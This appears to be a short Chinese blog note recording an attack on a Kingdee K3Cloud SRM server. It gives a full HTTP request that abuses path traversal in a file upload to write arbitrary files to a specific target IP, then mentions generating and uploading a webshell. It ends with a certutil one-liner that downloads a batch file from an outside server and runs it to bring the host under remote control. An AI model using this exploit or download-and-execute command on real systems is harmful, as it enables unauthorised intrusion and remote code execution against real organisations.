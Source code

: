 ```yaml
---
icon: pen-to-square
date: 2025-06-29
tags: 
title: 内网报告
category:
  - 项目
---
```

POC
```http
POST /k3cloud/SRM/ScpSupRegHandler HTTP/1.1
Host: 59.45.53.150:9888
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=zsqxokga
Accept-Encoding: gzip
Content-Length: 276

--zsqxokga
Content-Disposition: form-data; name="dbId_v"

.
--zsqxokga
Content-Disposition: form-data; name="FID"

2022
--zsqxokga
Content-Disposition: form-data; name="FAtt"; filename="../../../../uploadfiles/ccc.txt"
Content-Type: text/plain

ccc

--zsqxokga--
```

生成马
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250629095227.png)

上传成功
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250629095206.png)

```bash
certutil.exe -urlcache -split -f http://110.42.44.69:8084/swt C:\Users\Public\run.bat && C:\Users\Public\run.bat
```
上线命令